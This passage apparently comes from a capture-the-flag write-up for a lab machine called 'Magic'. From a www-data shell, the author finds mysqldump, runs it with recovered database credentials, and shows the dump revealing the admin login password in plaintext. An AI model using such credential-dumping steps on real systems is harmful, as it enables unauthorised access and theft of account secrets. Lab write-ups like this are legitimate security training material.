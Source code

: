 ```bash
www-data@ubuntu:/var/www/Magic$ find /usr/bin -name mysql* 2>/dev/null
find /usr/bin -name mysql* 2>/dev/null
/usr/bin/mysqloptimize
/usr/bin/mysqldump
/usr/bin/mysqladmin
/usr/bin/mysqlshow
/usr/bin/mysqld_safe
/usr/bin/mysqlbinlog
/usr/bin/mysqldumpslow
/usr/bin/mysqlcheck
/usr/bin/mysql_ssl_rsa_setup
/usr/bin/mysqlimport
/usr/bin/mysql_tzinfo_to_sql
/usr/bin/mysql_upgrade
/usr/bin/mysqlslap
/usr/bin/mysql_secure_installation
/usr/bin/mysqlrepair
/usr/bin/mysqlanalyze
/usr/bin/mysql_config_editor
/usr/bin/mysqld_multi
/usr/bin/mysql_plugin
/usr/bin/mysql_embedded
/usr/bin/mysql_install_db
/usr/bin/mysqlpump
/usr/bin/mysqlreport
```

Doing a quick google search I found that `mysqldump` can dump sql database innto a file.

```bash
www-data@ubuntu:/var/www/Magic$ mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
us --host=localhost Magic--password=iamkingtheseu
...snip...
--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2021-10-12  1:50:25
```
